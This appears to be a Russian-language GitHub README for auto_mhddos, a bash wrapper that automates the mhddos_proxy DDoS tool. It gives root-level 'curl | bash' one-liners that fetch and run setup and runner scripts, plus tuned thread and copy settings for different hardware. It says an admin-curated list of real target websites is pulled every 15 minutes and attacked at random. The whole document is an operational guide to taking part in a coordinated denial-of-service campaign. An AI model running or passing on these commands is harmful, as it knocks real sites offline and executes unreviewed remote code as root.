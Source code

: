 ### auto_mhddos - bash скрипт автоматизирующий [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

## Docker

```shell
docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest [num_of_copies] [threads] [rpc]
```

Все параметры опциональные, но если передаются, то строго в указанном порядке.

## Bash

Перед запуском перейти под пользователя root. Для этого выполнить команду `sudo su`

### Установка.

Выполняется для начальной установки ПО, и периодического обновления. Не обязательно использовать каждый раз.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/setup.sh | bash
```

Скрипт автоматически устанавливает git, python3, pip, mhddos_proxy, MHDDoS и все зависимости.

### Запуск.

Запускается одной командой (one-liner) в Linux і WSL (Windows Subsystem for Linux). Дальнейшее вмешательство со стороны пользователя не обязательно. 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash
```

Команды для разного железа: 

-- Слабое (2 ядра 2 ГБ). Эти же параметры использутся по умолчанию, если запускать команду без аргументов.


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 1 500 100
```

-- Среднее: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 1000 200
```

-- Быстрое: 


```shell
curl -s https://raw.githubusercontent.com/Aruiem234/auto_mhddos/main/runner.sh | bash -s -- 2 2000 1000
```

Значение параметров на примере "bash -s -- 1 500 100":

1 - кол-во паралельно запущенных копий mhddos_proxy.

500 - количество потоков (threads). Параметр -t в mhddos_proxy.

100 - параметр --rpc в mhddos_proxy.

# Описание
* Работает с курируемым админами единым списком [сайтов-целей](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База целей обновляется скриптом каждые 15 мин.

* Если целей много, то они выбираются из списка рандомно, поэтому не обязательно раскидывать пользователей по группам и распределять между ними нагрузку. Рандом все сделает самостоятельно.

* По умолчанию скрипт запускает 1 копию mhddos_proxy. Если запустить больше, то каждая копия будет независимо выбирает цель из списка, повторяться они не будут. Для этого в списке должны быть хотя бы две цели. Если будет мало целей, лишние копии программы просто не будут запускаться.

* Чтобы скрипт запускал больше копий mhddos_proxy, например 3, выполнить следующую команду `curl -s https://raw.githubusercontent.com/KarboDuck/karbo-wiki/master/runner.sh | bash -s -- 3` Если в списке всего две цели (две команды, начинающиеся на "runner.py"), то запускать 3 копии нет смысла. Вреда правда тоже не будет. Скрипт возьмет две цели, а третью копию программы просто не запустит.

Теоретически все это позволяет запустить скрипт на ПК/vps и всю остальную работу (обновление, перезапуск) он будет делать самостоятельно.

Рекомендуется использовать на Ubuntu 20.04. Вероятно будет работать на всех Ubuntu начиная с 18.04, а также всех производных Ubuntu и WSL2.

# Завершение скрипта

CTRL+C срабатывает не всегда. Поэтому можно:

* Просто закрыть окно с терминалом.

ИЛИ

* В другом терминале выполните команду "pkill python3", а потом в основном терминале нажмите CTRL + C.
